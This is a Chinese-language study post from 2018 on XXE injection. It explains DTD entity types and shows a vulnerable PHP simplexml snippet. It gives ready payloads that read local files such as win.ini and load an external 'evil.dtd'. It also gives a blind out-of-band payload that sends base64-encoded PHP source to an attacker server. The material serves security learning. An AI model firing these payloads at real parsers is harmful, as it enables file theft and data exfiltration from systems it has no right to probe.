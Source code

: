 ```yaml
---
layout:     post
title:      xxe_学习
subtitle:   xxe
date:       2018-08-20 				# 时间
author:     sh1llc0de					# 作者
catalog: true 						# 是否归档
tags:								#标签
    - 漏洞挖掘
---
```


## xxe_学习
### 基础学习
#### 利用环境约束
* libxml2.9.1(php5.3)之前的版本都默认解析外部
* 查看方法，编辑一个phpinfo文件，可以直接查看到libxml的版本
#### DTD的基础知识：
##### 概念：
* XXE: XML External Entity 即外部实体，从安全角度理解成XML External Entity attack 外部实体注入攻击。
* DTD:Document Type Definition 即文档类型定义，用来为XML文档定义语义约束。可以嵌入在XML文档中(内部声明)，也可以独立的放在一个文件中(外部引用)，由于其支持的数据类型有限，无法对元素或属性的内容进行详细规范，在可读性和可扩展性方面也比不上XML Schema。
* 基本的payload结构:
![](https://s1.ax1x.com/2018/08/20/Phh9MT.png)
##### 使用DTD实体攻击方式:
* DTD引用方式:
1、内部声明:<<!DOCTYPE 根元素 [元素声明]>>
2、外部声明:<!DOCTYPE 根元素 SYSTEM "外部DTD文档的url" >
3、引用公共DTD:<!DOCTYPE 根元素 PUBLIC "DTD标识名" "公共DTD的url" >
* DTD实体声明:
1、内部实体声明
		<!ENTITY 实体名称 "实体的值" >
一个实体由三部分构成:&符号, 实体名称, 分号 (;)，这里&不论在GET还是在POST中都需要进行URL编码，因为是使用参数传入xml的，&符号会被认为是参数间的连接符号。
	实例：
		1.php源码：```
	<?php
	$xml=simplexml_load_string($_POST['xml']);
	print_r($xml);
	?>
	```
		传入参数:xml=<!DOCTYPE foo [<!ENTITY aaa "test">]><foo>%26aaa;</foo>
	![](https://s1.ax1x.com/2018/08/20/PhhRyT.png)
2、外部实体声明
		<!ENTITY 实体名称 SYSTEM "URI/URL" >
外部引用可支持http，file等协议，不同的语言支持的协议不同，但存在一些通用的协议，具体内容如下所示:
![](https://s1.ax1x.com/2018/08/20/Phhv0e.png)
![](https://s1.ax1x.com/2018/08/20/Ph4Skd.png)
3、参数实体声明：
		<!ENTITY % 实体名称 "实体的值" > 或 <!ENTITY % 实体名称 "URI" >
![](https://s1.ax1x.com/2018/08/20/Ph4kX8.png)
4、引用公共实体：
		<!ENTITY 实体名称 PUBLIC "public_iD" "URI" >
#### XXE的利用方式：
	##### 有回显的情况：
	```
1、
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  xxe SYSTEM "file:///c:/windows/win.ini" >]>
<foo>&xxe;</foo>
2、
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY  % xxe SYSTEM "http://xxx.xxx.xxx/evil.dtd" >%xxe;]>
<foo>&evil;</foo>
外部dtd种的内容：
<!ENTITY evil SYSTEM “file:///c:/windows/win.ini” >
	```
	##### 无回显的情况：
	> 可以使用外带数据通道提取数据，先使用php://filter获取目标文件的内容，然后将内容以http请求发送到攻击服务器
		```
		攻击代码：
		<!DOCTYPE updateProfile [
		<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./1.php>
		<!ENTITY % dtd SYSTEM "http://127.0.0.1/test.dtd">
		%dtd;
		%send;
		]>
		
		test.dtd：
		<!ENTITY % all
		<!ENTITY &#x25; send SYSTEM 'http://127.0.0.1/?data=%file;'>
		>
		%all;
		```
有两种情况：
	有报错：
		![](https://s1.ax1x.com/2018/08/20/Ph4Mpq.png)
	没报错：
		这种情况我们就要去查看日志文件了。